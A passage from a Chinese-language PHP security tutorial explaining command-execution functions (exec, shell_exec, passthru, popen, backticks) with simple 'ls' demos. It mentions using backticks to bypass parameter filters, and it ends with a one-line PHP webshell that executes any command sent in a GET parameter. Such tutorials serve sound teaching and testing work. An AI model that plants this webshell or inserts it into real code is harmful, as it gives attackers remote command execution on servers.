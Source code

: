 **`exec()` 函数可以执行系统命令，但它不会直接输出结果，而是将执行的结果保存到数组中**

Demo：将 `exec()` 函数执行的结果导入 result 数组

```plain
exec( 'ls' , $result );
print_r($result);        //Array ( [0] => index.php )
```

### 3.4 shell\_exec()

**`shell_exec()` 函数可以执行系统命令，但不会直接输出执行的结果，而是返回一个字符串类型的变量来存储系统命令的执行结果**

Demo：执行 `ls` 命令

```plain
echo shell_exec('ls');    //index.php
```

### 3.5 passthru()

**`passthru()` 函数可以执行系统命令并将执行结果输出到页面中**

与 `system()` 函数不同的是，它支持二进制的数据，使用时直接在参数中传递字符串类型的系统命令即可

Demo：执行 `ls` 命令

```plain
passthru('ls');    //index.php
```

### 3.6 popen()

**`popen()` 函数可以执行系统命令，但不会输出执行的结果，而是返回一个资源类型的变量用来存储系统命令的执行结果**

故需要配合 `fread()` 函数来读取命令的执行结果

Demo：执行 `ls` 命令

```plain
$result = popen('ls', 'r');    //参数 1:执行 ls 命令 参数 2:字符串类型
echo fread($result, 100);      //参数 1:上面生成的资源 参数 2:读取 100 个字节
```

### 3.7 反引号\`\`

**反引号可以执行系统命令但不会输出结果，而是返回一个字符串类型的变量用来存储系统命令的执行结果**

可单独使用，也可配合其他命令执行函数使用来绕过参数中的过滤条件

Demo：执行 `ls` 命令

```plain
echo `ls`;    //index.php
```

所以，就可以通过这个写出几乎最短的 Webshell 了

```plain
<?=`$_GET[1]`;
```

